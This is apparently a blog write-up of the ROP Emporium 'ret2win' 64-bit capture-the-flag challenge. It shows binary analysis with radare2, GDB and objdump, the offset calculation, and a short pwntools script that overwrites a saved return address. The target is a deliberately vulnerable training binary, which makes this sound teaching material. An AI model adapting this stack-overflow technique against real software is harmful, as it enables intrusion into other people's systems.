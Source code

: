 ```yaml
---
layout: post
title: ROP Emporium Challenge 0: ret2win (64 bits)
excerpt_separator: <!--more-->
---
```


Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*
<!--more-->

# ret2win

Link: https://ropemporium.com/challenge/ret2win.html

--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win | grep 't'
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_1.jpg)

Or with radare:

```
r2 ret2win
aaaa
afl
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_2.jpg)

Then we can disassembly this function using again radare:

```
r2 ret2win
aaaa
s sym.ret2win
pdf
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_3.jpg)

We can disassembly the main function too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_4.jpg)



## 2. Calculating RIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win
```

Using Python we create characters to test when it crashes:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_5.jpg)


With 41 we overwrite only 1 byte, so the offset is 40:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_6.jpg)

Note: It will be the same offset for all the 64 bits binaries of Rop Emporium.




## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win | grep ret2win
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_7.jpg)

Note: Also using gdb (*info functions*).




## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='amd64', os='linux')
p = process('./ret2win')

junk =    "A"*40
ret2win = 0x0000000000400811
rop = junk + p64(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

------------------------

References:

- https://medium.com/@jacob16682/reverse-engineering-using-radare2-588775ea38d5
